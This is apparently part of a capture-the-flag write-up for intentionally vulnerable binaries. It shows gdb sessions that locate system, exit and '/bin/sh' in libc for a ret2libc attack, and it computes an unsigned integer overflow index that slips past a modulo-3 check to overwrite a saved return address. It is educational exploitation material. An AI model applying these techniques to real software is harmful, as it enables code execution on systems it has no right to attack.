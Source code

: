 After that, the only thing remaining will be to check result after the calculations. Then break at the before the comparison, and get the value (`b *auth+286` and `x /d $ebp-0x10`).

```shell
(echo -e "ABCDEF\n6231554"; cat) | ~/level02
```

---

## Level07 - Bypass Modulo protection

As we can not execute a shellcode, we will try to use the ret2libc attack while overriding the return address

### Resolve

```shell
b*main
p system
  $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

gdb-peda$ p exit
  $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

gdb-peda$ searchmem "/bin/sh"
  libc : 0xf7f897ec ("/bin/sh")

info frame
  eip at 0xffffd63c

b*store_number+6
run
(stdin) store
p $ebp+0x8 # int *data
  $9 = (void *) 0xffffd450
x/a 0xffffd450
0xffffd450:     0xffffd474  # <-- data[0]

p /d (int)(0xffffd63c - 0xffffd474) # eip_address - array_address
  456 # bytes
p /d 456 / 4
  114 # index

p 114 % 3
  0x0 # => bad
```

As `index` is an unsigned int, and as `index` is multiplied by 4, before storing the number, what happens if we use a number greater than `UINT_MAX + 1 / 4` ?

```shell
p (unsigned int)0x100000000 # UINT_MAX + 1
  0x0                       # stores at index 0

p /u (0x100000000 / 4) + 114
  1073741938                # stores at index 114

p 1073741938 % 3
  0x1                       # and it passes the check !
```
